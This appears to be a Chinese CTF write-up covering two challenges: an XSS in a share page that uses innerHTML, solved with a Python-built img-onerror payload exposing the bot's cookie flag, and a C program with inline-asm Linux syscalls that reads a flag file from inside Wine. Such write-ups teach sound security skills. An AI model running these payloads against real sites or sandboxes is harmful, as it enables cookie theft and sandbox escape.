 ## 微积分计算小练习

bot通过`driver.execute_script(f'document.cookie="flag={FLAG}"')`将flag存入cookie中，这不会设置HttpOnly，之后会访问我们给的share页面，链接中带有参数，查看share页面源码，发现使用了`innerHTML`将获得的参数插入页面中：

```js
document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

使用XSS攻击，将cookie中的flag插入`#greeting`或`#score`就行了：

```python
import base64, urllib
temp = base64.b64encode(b'0:<img src=1 onerror=\'document.getElementById("greeting").innerHTML=document.cookie;\'>')
temp = urllib.parse.quote_plus(temp)
url = 'http://202.38.93.111:10056/share?result=' + temp
print(url)
```

## 杯窗鹅影

Wine启动的程序也可以直接使用Linux系统调用，第一问使用`open`和`read`，第二问直接`exec`不行，先`fork`了一次。

第一问代码：

```c
#include <stdio.h>

int main(){
    unsigned int fd;
    const char *path = "/flag1";
    char flag[1024];

    __asm__(  // sys_open
        "movq $2, %%rax\n\t"  // rax = 2
        "movq %1, %%rdi\n\t"  // rdi = path
        "movq $0, %%rsi\n\t"  // rsi = 0
        "syscall\n\t"
        "movl %%eax, %0"      // fd = sys_open(path, 0)
        :"=r"(fd)
        :"r"(path)
        :"rax", "rdi", "rsi"
    );

    __asm__(  // sys_read
        "movq $0, %%rax\n\t"  // rax = 0
        "movl %0, %%edi\n\t"  // rdi = fd
        "movq %1, %%rsi\n\t"  // rsi = flag
        "movq $512, %%rdx\n\t"// rdx = 512
        "syscall\n\t"         // sys_read(fd, flag, 512)
        :
        :"r"(fd), "r"(flag)
        :"rax", "edi", "rsi", "rdx"
    );

    printf("%s\n", flag);
}
```

